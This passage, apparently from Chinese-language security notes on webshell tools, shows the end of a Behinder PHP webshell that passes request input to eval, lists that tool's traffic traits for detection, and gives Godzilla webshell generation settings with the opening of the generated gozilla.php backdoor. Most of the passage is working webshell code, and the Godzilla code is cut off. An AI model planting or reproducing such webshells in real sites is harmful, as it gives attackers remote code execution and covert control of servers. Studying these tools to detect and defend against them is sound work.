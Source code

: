 ```php
	}
    $arr=explode('|',$post);
    $func=$arr[0];
    $params=$arr[1];
	class C{public function __invoke($p) {eval($p."");}}
    @call_user_func(new C(),$params);
?>
```

流量特征：

- 冰蝎最小的流量包，**请求头的content length都大于5000**。
- 采用POST方式进行连接。

#### 加解密

- 数据包中都是base64编码，WAF无法防御。

![img](./images/202211091045328.png)

### Godzilla 哥斯拉

Webshell代码：

- 生成php的webshell代码：管理→生成

```
密码：pass				
密钥：key 				# md5：3c6e0b8a9c15224a8228b9a98ca1531d
有效载荷：PhpDynamicPayload
加密器：PHP_XOR_BASE64
```

```php
# gozilla.php

<?php
@session_start();
@set_time_limit(0);
@error_reporting(0);
function encode($D,$K){
    for($i=0;$i<strlen($D);$i++) {
        $c = $K[$i+1&15];
        $D[$i] = $D[$i]^$c;
    }
    return $D;
}
$pass='pass';
$payloadName='payload';
```
